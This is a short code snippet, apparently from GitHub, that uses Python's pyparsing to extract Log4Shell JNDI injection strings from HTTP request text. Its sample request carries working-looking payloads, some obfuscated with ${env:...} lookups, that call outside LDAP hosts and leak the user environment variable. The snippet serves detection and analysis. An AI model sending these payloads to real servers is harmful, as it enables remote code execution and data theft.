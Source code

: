 # extract log4shell payload 
Question: How do I extract jndp payload like 
```python
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//xxx.interactsh.com:80/${env:user}}
```
regex is cool but complex. let's use pyparsing! (You'll need to install pyparsing `pip install pyparsing` first)

```python
from pyparsing import *

value = """
POST /include?q=$%7Bjndi:ldap://xx:1389/ysgb0t%7D HTTP/1.1
Host: xxx.xxx.xxx:80
Transfer-Encoding: identity
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: ${jndi:ldap://78.31.71.248:1389/ysgb0t}
Cookie: acw_tc=xxx
User-Agent: ${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//xxx.interactsh.com:80/${env:user}}

args1=${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//xxx.interactsh.com:80/${env:user}}&args2=${jndi:ldap://xx:1389/ysgb0t}
"""

expr = Combine(nestedExpr('${', '}'))
single_value = QuotedString(quoteChar="${", endQuoteChar="}")


def extract_payloads(long_text):
    for tokens, start, end in expr.scanString(long_text):
        print(long_text[start:end])


if __name__ == '__main__':
    extract_payloads(value)
```
Output:
```
${jndi:ldap://78.31.71.248:1389/ysgb0t}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//xxx.interactsh.com:80/${env:user}}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//xxx.interactsh.com:80/${env:user}}
${jndi:ldap://xx:1389/ysgb0t}
```
Hope it saves your time.
